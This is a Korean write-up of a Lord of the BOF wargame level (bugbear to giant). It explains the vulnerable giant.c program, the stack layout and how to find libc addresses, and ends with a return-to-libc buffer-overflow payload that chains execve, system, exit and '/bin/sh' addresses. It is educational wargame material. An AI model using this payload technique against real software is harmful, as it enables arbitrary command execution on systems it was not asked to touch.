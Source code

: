 ```yaml
---
title:  "[LOB] level 14: bugbear >> giant "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-26 07:51:20

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 14

**bugbear / new divide**

giant.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147400871-67366aa0-103c-4ed6-bb39-7512af9aecbd.png)

지역변수를 선언하고 
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
        char buffer[40];
        FILE *fp;
        char *lib_addr, *execve_offset, *execve_addr;
        char *ret;
        
        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // gain address of execve
        fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");

        fgets(buffer, 255, fp);
        sscanf(buffer, "(%x)", &lib_addr);
        fclose(fp);

        fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");

        fgets(buffer, 255, fp);
        sscanf(buffer, "%x", &execve_offset);
        fclose(fp);

        execve_addr = lib_addr + (int)execve_offset;
        // end

        memcpy(&ret, &(argv[1][44]), 4);
        if(ret != execve_addr)
        {
                printf("You must use execve!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

```
popen(): system함수처럼 명령어를 실행시키는 함수, 대신 system함수와 달리 명령어를 실행후 결과값 자체를 출력만 해주는 system함수와 달리 popen함수는 결과값 저장이 가능    
lbb: 지정한 프로그램의 라이브러리 의존성 확인  
grep: 문자열을 찾는 명령어  
awk: 패턴 탐색과 처리  
{print $4}: 4번째 필드 출력  
파이프라인: 결과값을 다음 input으로 넣어줌  
r : 명령어를 읽어들이는 타입  
ldd의 명령어를 사용해서 assasin의 libc의 주소를 가져오는 과정이다  

오브젝트파일의 심볼 정보를 확인할 수 있는 nm명령어를 이용해서 /libc/libc.so.6 파일에서 execve()함수의 offset을 알아온다  
nm명령을 사용하면 함수들의 주소가 아닌 offset으로 나온다, 그럼 execve함수의 정확한 주소를 알기 위해서 /lib/libc.so.6주소와 execve 함수의 offset이필요한다

낮은주소

*ret[4]  
*execve_addr[4]  
*execve_offset[4]  
*lib_addr[4]  
*fp[4]  
buffer[40]  
sfp[4]  
ret[4]  

높은주소

ret는 execve 함수를 사용해야한다

RTL을 하기위해 execve함수의 원형을 살펴보자  
execve함수는 파일을 현재 프로세스에 적재하여 새로운 기능을 하는 함수이다, 외부 함수를 실행할 수 있다는의미  
>int  execve  (const  char  \*filename, char *const argv [], char *const envp[]);

*filename : 프로그램에 적재할 파일 (새로 실행시킬 프로그램)  
argv[] : 실행할 프로그램에 전단하는 매개변수의 배열  
envp[] : 전달할 환경변수의 배열  

페이로드 구상도:  
>\`python -c 'print "A"*44'+(execve주소)+(system주소)+(exit주소)+/bin/sh주소

찾아야 할것은  
execve 주소  
system 주소  
exit 주소  
/bin/sh 주소  

execve,system,exit주소:  
![image](https://user-images.githubusercontent.com/69203345/147401998-2b049bf4-38c3-497a-8363-bc1ca2ba32e3.png)

/bin/sh주소:  
```c
#include <stdio.h>
#include <string.h>

int main(){
        long system = 0x40058ae0; //system함수의 시작 주소
        while (memcmp((void*)system, "/bin/sh\x00", 8)){
                system++;
        }
        printf("/bin/sh: %x\n", system);

        return 0;

}
```
![image](https://user-images.githubusercontent.com/69203345/147402019-34b56117-6b98-4a3d-aa1d-2a2db9ca09fd.png)

페이로드:  
>"\`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"+"\xe0\x91\x03\x40"+"\xf9\xbf\x0f\x40"'`"

![image](https://user-images.githubusercontent.com/69203345/147402091-187ad26e-aaed-47b0-860b-601573f56887.png)  
execve주소를 사용하라고 하는데 페이로드에있는 \x0a가 null로 인식해서 그렇다고 한다